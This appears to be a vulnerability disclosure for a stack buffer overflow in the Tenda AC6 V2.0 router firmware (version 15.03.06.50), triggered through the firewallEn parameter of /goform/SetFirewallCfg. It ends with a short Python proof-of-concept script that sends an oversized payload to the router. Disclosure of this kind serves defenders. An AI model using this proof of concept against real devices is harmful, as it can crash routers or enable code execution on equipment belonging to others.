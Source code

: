 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 V2.0 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/SetFirewallCfg`. When `firewallEn` is specified with excessive data, the buffer overflow occurs during `strcpy`.

![alt text](image-1.png)
## poc
![alt text](image.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'firewallEn': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x110 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/SetFirewallCfg", payload)
```
